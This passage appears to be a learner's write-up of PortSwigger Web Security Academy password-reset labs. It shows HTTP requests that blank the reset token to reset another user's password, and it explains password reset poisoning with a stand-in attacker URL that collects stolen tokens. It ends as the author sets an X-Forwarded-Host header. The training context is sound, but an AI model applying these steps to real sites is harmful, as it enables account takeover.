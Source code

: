 ```http
Referer: https://0a5400660449e30781fc201e006c00b7.web-security-academy.net/forgot-password?temp-forgot-password-token=f7t36khdjvssa0ee1acxn52hlmnz1k75
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

temp-forgot-password-token=f7t36khdjvssa0ee1acxn52hlmnz1k75&username=wiener&new-password-1=test&new-password-2=test
```

When I delete the value of the token and send this request, I still get a `HTTP/2 302 Found` which means this is not being validated.

```http
HTTP/2 302 Found
Location: /
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Now, I will remove this token, and change the username from wiener to carlos.

`temp-forgot-password-token=&username=carlos&new-password-1=halilWasHere&new-password-2=halilWasHere`

I get again a `HTTP/2 302 Found`, and now I will try the new password. It works and the lab is solved.

-----------

## Password Reset Poisoning

A technique where an attacker manipulates a vulnerable website into generating a password reset link pointing to a domain under their control.

This can be leveraged to steal the secret tokens required to reset passwords.

If the URL that is sent to the user is dynamically generated based on controllable input, such as the `Host` header, it can be possible to construct the attack.

- The attacker gets the victim's email address or username and submits a password reset request. They intercept the resulting HTTP request and modify the `Host` header to point to a domain that they control.
- The victims gets a password reset email from the website, and this seems to contain a link to reset the password. However, the domain name in the URL points to the attacker's server:
  `https://evil-user.net/reset?token=0a1b2c3d4e5f6g7h8i9j`.
- If the victim clicks the link, the reset token will be delivered to the attacker's server.
- The attacker now can visit the real URL with the stolen token and reset the password.

### Lab.4 Password Reset Poisoning via Middleware

`carlos` clicks on any links in the email. The goal is to login to the `carlos` account. I can login to my account `wiener:peter`.

I try the password reset functionality, and send the requests to Burp. In there I add a `X-Forwarded-Host` header, and put the URL of the exploit server.
